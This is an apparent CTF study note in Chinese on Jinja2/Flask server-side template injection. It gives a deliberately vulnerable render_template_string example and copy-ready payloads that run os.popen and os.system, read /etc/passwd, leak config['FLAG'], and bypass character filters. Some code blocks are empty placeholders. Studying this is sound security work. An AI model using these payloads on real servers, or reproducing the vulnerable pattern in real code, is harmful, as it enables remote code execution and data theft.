

# SSTI

- 背景知识：

    - 

    - 

    - 模板的用途：
        为了写html代码的时候方便，很多网站都会使用模板，先写好一个html模板文件，比如：

        ```python
        def test():
        code = request.args.get('id')
        html = '''
            <h3>%s</h3>
        '''%(code)
        return render_template_string(html)
        ```

        这段代码中的 `html` 就是一个简单的模板文件，当开发者想要这个模板对应的样式时，可以直接用 `render_template_string` 方法来调用这个模板，从而直接把这个样式渲染出来。

        而模板注入，就是指 **将一串指令代替变量传入模板中让它执行** ，以这段代码为例，我们在传入 `code` 值时，可以用 `{{}}` 符号来包裹一系列代码，以此替代本应是参数的 `id` ：

        ```
        http://..../?id={{代码}}
        ```

        此处的 `代码` 段，即是 SSTI 注入区域。

- 基本思路：

    - 利用 python 中的魔术方法找到自己要用的函数

        ```r
        __dict__ 保存类实例或对象实例的属性变量键值对字典
        __class__  返回类型所属的对象
        __mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
        __bases__   返回该对象所继承的基类
        // __base__和__mro__都是用来寻找基类的

        __subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
        __init__  类的初始化方法
        __globals__  对包含函数全局变量的字典的引用
        ```

    - 整个流程可以理解为将代码塞入 url ，利益python解析的漏洞，让服务器解析代码，并按照代码的逻辑一步一步寻找自己库里的对应方法并调用，直到调用到系统命令执行函数(一般为`os.system` 和 `os.popen`两种)，最后用该函数执行命令，完成 RCE 。

- 常用的傻瓜式payload：

    - 爆类库等信息：

        ```python
        ''.__class__
        ```

        ```python
        ''.__class__.__mro__
        ```

        ```
        ...
        ```
        - 事实上，攻击者可以通过这种方法几乎调用任何函数，只要能通过类似的 `拼接式的` 构造方式调用到对应的函数即可。

    - RCE：

        ```python
        ''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()
        ```

        ```python
        ''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')
        ```

        ```python
        ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
        ```

- 杂项：

    - {{config}}可以获取当前设置，如果题目类似app.config ['FLAG'] = os.environ.pop（'FLAG'），那可以直接访问{{config['FLAG']}}或者{{config.FLAG}}得到flag

    - `{{self}} ⇒ <TemplateReference None>`
        
        `{{self.__dict__._TemplateReference__context.config}} ⇒ 同样可以找到config`
        ```

    - 常用的绕过方式：

        以下表示法可用于访问对象的属性：

        `request.__class__`
        `request["__class__"]`
        `request|attr("__class__")`

        可以使用以下方法访问数组元素：

        `array[0]`
        `array.pop(0)`
        `array.__getitem__(2)`

    - 过滤[]的情况：

        - 过滤方括号`[]`：
            `pop()` 函数用于移除列表中的一个元素（默认最后一个元素），并且返回该元素的值。
            `''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()`
            若.也被过滤，使用原生JinJa2函数`|attr()`
            将`request.__class__`改成`request|attr("__class__")`

        - 过滤下划线`_`：
            利用 `request.args` 属性

            `{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__`

            将其中的`request.args`改为`request.values`则利用 POST 的方式进行传参，实现对下划线 `_` 的绕过。

        - 过滤代码引用标识`{{}}`：
            使用`1`，例如：

            ```python
            1
            ```
            如果不能执行命令，读取文件可以利用盲注的方法逐位将内容爆出来

            ```python
            1
            ```